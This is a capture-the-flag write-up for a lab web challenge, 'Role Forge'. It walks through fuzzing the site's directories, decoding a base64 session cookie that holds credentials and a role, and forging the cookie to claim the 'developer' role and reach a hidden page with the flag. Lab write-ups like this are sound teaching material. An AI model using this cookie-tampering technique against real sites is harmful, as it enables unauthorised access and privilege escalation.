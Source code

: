 ## Role Forge

## Description
```
A friend of mine is currently setting up a website for his forge. 
Apparently they are not only smithing weapons and tools but also sweets in those furnaces.

Can you uncover the secret?
```

## Writeup

Starting off, we should take a look at the website. <br/>
```html
$ curl 192.168.24.128                                         
<!DOCTYPE html>
<html>
<head>
    <title>Role-Forge</title>
    <link rel="stylesheet" type="text/css" href="/static/./style.css">
</head>
<body>
    <div id="mainSection">
        <h2>Deluxe Forge</h2>
        <br/>
        <p><a href="/login">Login</a></p>
        <p><a href="/signup">Signup</a></p>
    </div>
    <!-- Note from developer: We need to fix access to dashboard, apparently admin role doesn't have access to it! -->
</body>
</html>
```

Looking at the other things doen't reveal anything more interesting, but we should keep the comment in mind. <br/>
Before going on we should do some kind of directory scan first. <br/>
```sh
$ ffuf -w ./Tools/wordlists/wordlists/discovery/directories.txt -u http://192.168.24.128/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.24.128/FUZZ
 :: Wordlist         : FUZZ: /home/kali/Tools/wordlists/wordlists/discovery/directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 448, Words: 80, Lines: 16, Duration: 28ms]
    * FUZZ: ??

[Status: 302, Size: 189, Words: 18, Lines: 6, Duration: 26ms]
    * FUZZ: developer

[Status: 200, Size: 646, Words: 152, Lines: 24, Duration: 30ms]
    * FUZZ: login

[Status: 200, Size: 649, Words: 152, Lines: 24, Duration: 31ms]
    * FUZZ: signup

:: Progress: [58655/58655] :: Job [1/1] :: 1333 req/sec :: Duration: [0:00:43] :: Errors: 1 ::
```

Trying to access the `/developer` webpage redirects us to the index page. <br/>
Next we should test the funtions avilable to us. <br/>
After creating an account and logging in with the newly made account we actually get a cookie set. <br/>
Seeing the cookie we should be able to see that it's `base64` encoded. <br/>
```sh
$ echo 'eyJ1c2VybmFtZSI6ICIxMjMiLCAicGFzc3dvcmQiOiAiMTIzIiwgInJvbGUiOiAidXNlciJ9' | base64 -d
{"username": "123", "password": "123", "role": "user"}
```

Decoding the `cookie` reveals our users credentials and role. <br/>
Remembering the comment from the index page which states that `admin` role doesn't have access to the dashboard from `developer`, we can assume that we need to change our role to gain access to the dashboard. <br/>
```sh
$ echo '{"username": "123", "password": "123", "role": "developer"}' | base64
eyJ1c2VybmFtZSI6ICIxMjMiLCAicGFzc3dvcmQiOiAiMTIzIiwgInJvbGUiOiAiZGV2ZWxvcGVyIn0K
```

Encoding the changed cookie content, exchanging the cookie on the website and navigating to `/developer` doesn't redirect us to the index page anymore. <br/>
Instead we now have access to the webpage which contains the flag. <br/>
![image](https://github.com/CTF-Citadel/challenges/assets/110562298/c89c6099-6ada-45b5-bac7-b01ddb93cb88)

Obtaining the flag concludes this writeup. 


